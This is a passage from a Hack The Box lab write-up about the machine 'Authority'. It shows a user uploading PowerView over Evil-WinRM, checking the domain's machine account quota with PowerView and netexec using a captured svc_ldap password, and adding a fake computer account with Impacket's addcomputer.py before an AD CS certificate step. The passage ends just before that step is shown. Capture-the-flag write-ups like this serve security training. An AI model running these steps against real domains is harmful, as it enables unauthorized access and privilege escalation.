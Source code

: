 #### Create Computer Account

In [Support](https://0xdf.gitlab.io/2022/12/17/htb-support.html#create-fakecomputer) I had an exploitation path that required a fake computer. I’ll do the same thing here, though on Support I did it from a shell on the target, while here I’ll show how to do it remotely with [Impacket](https://github.com/SecureAuthCorp/impacket).

The setting that allows a user to add a computer to the domain is the `ms-ds-machineaccountquota`. On Authority, I can query this with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):

```
*Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1


Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
*Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=AUTHORITY,DC=HTB' | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10

```

`netexec` will also do this from my VM:

```
oxdf@hacky$ netexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
MAQ         10.10.11.222    389    AUTHORITY        [*] Getting the MachineAccountQuota
MAQ         10.10.11.222    389    AUTHORITY        MachineAccountQuota: 10

```

Now I can add the computer with `addcomputer.py`:

```
oxdf@hacky$ addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 0xdf -computer-pass 0xdf0xdf0xdf -dc-ip 10.10.11.222
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Successfully added machine account 0xdf$ with password 0xdf0xdf0xdf.

```

#### Create Certificate

With the computer account on the domain, now `certipy` will create the certificate with the following options:
